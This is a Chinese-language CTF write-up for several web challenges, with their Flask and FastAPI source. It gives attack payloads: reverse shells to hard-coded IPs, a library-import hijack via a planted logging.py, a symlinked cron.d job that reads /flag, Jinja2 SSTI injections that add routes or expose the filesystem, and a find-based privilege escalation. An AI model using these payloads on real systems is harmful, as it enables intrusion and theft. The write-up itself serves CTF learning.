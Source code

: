 ## EncirclingGame
将红色赌起来就可以了

![](attachments/Pasted%20image%2020240817102058.png)

## php_online
```PYTHON
from flask import Flask, request, session, redirect, url_for, render_template  
import os  
import secrets  
  
  
app = Flask(__name__)  
app.secret_key = secrets.token_hex(16)  
working_id = []  
  
  
@app.route('/', methods=['GET', 'POST'])  
def index():  
    if request.method == 'POST':  
        id = request.form['id']  
        if not id.isalnum() or len(id) != 8:  
            return '无效的ID'  
        session['id'] = id  
        if not os.path.exists(f'/sandbox/{id}'):  
            os.popen(f'mkdir /sandbox/{id} && chown www-data /sandbox/{id} && chmod a+w /sandbox/{id}').read()  
        return redirect(url_for('sandbox'))  
    return render_template('submit_id.html')  
  
  
@app.route('/sandbox', methods=['GET', 'POST'])  
def sandbox():  
    if request.method == 'GET':  
        if 'id' not in session:  
            return redirect(url_for('index'))  
        else:  
            return render_template('submit_code.html')  
    if request.method == 'POST':  
        if 'id' not in session:  
            return 'no id'  
        user_id = session['id']  
        if user_id in working_id:  
            return 'task is still running'  
        else:  
            working_id.append(user_id)  
            code = request.form.get('code')  
            os.popen(f'cd /sandbox/{user_id} && rm *').read()  
            os.popen(f'sudo -u www-data cp /app/init.py /sandbox/{user_id}/init.py && cd /sandbox/{user_id} && sudo -u www-data python3 init.py').read()  
            os.popen(f'rm -rf /sandbox/{user_id}/phpcode').read()  
              
            php_file = open(f'/sandbox/{user_id}/phpcode', 'w')  
            php_file.write(code)  
            php_file.close()  
  
            result = os.popen(f'cd /sandbox/{user_id} && sudo -u nobody php phpcode').read()  
            os.popen(f'cd /sandbox/{user_id} && rm *').read()  
            working_id.remove(user_id)  
  
            return result  
  
  
if __name__ == '__main__':  
    app.run(debug=False, host='0.0.0.0', port=80)
```
反弹shell

```
#!/usr/bin/python
import os,subprocess,socket

s=socket.socket(socket.AF_INET,socket,SOCK_STREAM)
s.connect((49.232.206.37,12345))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
init.py
```python
import logging

logger.info('Code exeution start')
```

由于用户是nobady反弹到shell也没有权限在别的目录以外写和读flag
利用python特性在当前目录下写一个logging.py来替换原有的库
logging.py
```PYTHON
echo "__import__('os').popen('bash -c \"bash -i >& /dev/tcp/124.222.136.33/1338 0>&1\"')" > /tmp/logging.py
echo "while true; do" >> /tmp/exp.sh
echo "    cp /tmp/logging.py /sandbox/aaaaaaa2/logging.py" >> /tmp/exp.sh
echo "done" >> /tmp/exp.sh
chmod +x /tmp/exp.sh
sh /tmp/exp.sh
```
这样可以拿到www-data的shell

接下来利用软连接将定时任务的目录`/etc/cron.d`软连接到一个/sandbox下的新创建一个沙箱中，在通过正常方式来将定时任务写到沙箱中，等到执行定时任务就可以实现命令执行，sleep保障能够在执行删除前完成命令执行

```CRON
* * * * * root cat /flag > /tmp/flag
# <?php sleep(1000);?>
```



## GoldenHornKing
#Python内存马

```PYTHON
import os
import jinja2
import functools
import uvicorn
from fastapi import FastAPI
from fastapi.templating import Jinja2Templates
from anyio import fail_after, sleep

# Dependencies version
# jinja2==3.1.2
# uvicorn==0.30.5
# fastapi==0.112.0

def timeout_after(timeout: int = 1):
    def decorator(func):
        @functools.wraps(func)
        async def wrapper(*args, **kwargs):
            with fail_after(timeout):
                return await func(*args, **kwargs)
        return wrapper

    return decorator

app = FastAPI()
access = False

_base_path = os.path.dirname(os.path.abspath(__file__))
t = Jinja2Templates(directory=_base_path)

@app.get("/")
@timeout_after(1)
async def index():
    return open(__file__, 'r').read()

@app.get("/calc")
@timeout_after(1)
async def ssti(calc_req: str):
    global access
    if (any(char.isdigit() for char in calc_req)) or ("%" in calc_req) or not calc_req.isascii() or access:
        return "bad char"
    else:
        jinja2.Environment(loader=jinja2.BaseLoader()).from_string(f"{{{{ {calc_req} }}}}).render({'app': app})
        access = True
    return "fight"

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=8000)

```


python内存马 和之前国赛的Sanic的一篇博客类似都是通过路由的添加
[CISCN2024-WEB-Sanic gxngxngxn - gxngxngxn - 博客园 (cnblogs.com)](https://www.cnblogs.com/gxngxngxn/p/18205235)
也是通过`app = FastAPI()`和`render({'app': app})`来打入
```
/calc?calc_req=config.__init__.__globals__['__builtins__']['exec']('app.add_api_route("/flag",lambda:__import__("os").popen("cat /flag").read());',{"app":app})
```

挂载静态文件
[【Web】巅峰极客2024 部分题解-CSDN博客](https://blog.csdn.net/uuzeray/article/details/141285560)

```
/calc?calc_req=lipsum.__globals__['__builtins__'].exec("from fastapi.staticfiles import StaticFiles;app.mount('/static', StaticFiles(directory='/'), name='static')", {"app": app})
```


## admin_Test
这题没看，出门了，主要考一个提权
思路是在`./admin.html`做命令执行利用上传产生的临时文件执行命令`. /t*/*`，然后就是find提权
[find | GTFOBins](https://gtfobins.github.io/gtfobins/find/)

```SHELL
find file -exec cat /flag \;
```